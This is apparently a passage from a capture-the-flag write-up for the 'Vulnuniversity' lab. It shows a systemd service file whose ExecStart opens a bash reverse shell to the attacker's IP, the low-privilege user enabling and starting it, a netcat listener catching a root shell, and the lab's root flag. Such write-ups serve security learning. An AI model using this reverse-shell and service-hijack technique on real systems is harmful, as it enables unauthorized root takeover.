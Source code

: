 ```python
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.190.200/9998 0>&1'

[Install]
WantedBy=multi-user.target
www-data@vulnuniversity:/tmp$ /bin/systemctl enable /tmp/root.service
Created symlink from /etc/systemd/system/multi-user.target.wants/root.service to /tmp/root.service.
Created symlink from /etc/systemd/system/root.service to /tmp/root.service.
www-data@vulnuniversity:/tmp$ /bin/systemctl start root.service





ATACANTE:


┌──(root㉿kali)-[~]
└─# nc -lnvp 9998         
listening on [any] 9998 ...
connect to [10.10.190.200] from (UNKNOWN) [10.10.108.57] 56478
bash: cannot set terminal process group (2013): Inappropriate ioctl for device
bash: no job control in this shell
root@vulnuniversity:/# whoami
whoami
root
root@vulnuniversity:/# find / -type f -name flag.txt 2>/dev/null 
find / -type f -name flag.txt 2>/dev/null
root@vulnuniversity:/# ls
ls
bin
boot
dev
etc
home
initrd.img
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
root@vulnuniversity:/# cd root
cd root
root@vulnuniversity:~# ls
ls
root.txt
root@vulnuniversity:~# cat root.txt
cat root.txt
a58ff8579f0a9270368d33a9966c7fd5



```